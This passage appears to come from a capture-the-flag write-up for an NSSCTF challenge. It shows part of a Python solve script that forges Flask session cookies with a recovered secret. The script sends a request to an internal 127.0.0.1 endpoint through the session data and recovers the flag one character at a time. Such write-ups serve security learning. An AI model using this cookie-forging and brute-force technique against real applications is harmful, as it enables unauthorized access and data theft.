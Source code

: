 ```python
            s.cookies.clear()
            session = flask_unsign.sign(data, secret)
            cookies = {"session": session}

            url = '%s/get_hindd_result' % base_url
            res = s.get(url, cookies=cookies)

            if 'you get it' in res.text:
                flag += c
                print(f'char:{c}, flag = {flag}')
                break
            else:
                print(f'{c}: {res.text}')
            if ord(c) == 127:
                raise Exception


def step3():
    flag = 'NSSCTF{'
    while True:
        for c in chars:  # 10-lf,13-cr
            txt = flag + c
            data = {'admin': False, 'data': txt.encode(), 'url': 'http://127.0.0.1:8888/getflag?1.html?'}  # work
            secret = open('key.txt', 'r').read()
            s.cookies.clear()
            session = flask_unsign.sign(data, secret)
            cookies = {"session": session}

            url = '%s/get_hindd_result' % base_url
            res = s.get(url, cookies=cookies)

            if 'you get it' in res.text:
                flag += c
                print(f'char:{c}, flag = {flag}')
                break
            else:
                print(f'{c}: {res.text}')
            if ord(c) == 127:
                raise Exception


if __name__ == '__main__':
    # step1()
    # step2()
    step3()
```




# NSSCTF prize5 - 反序列化

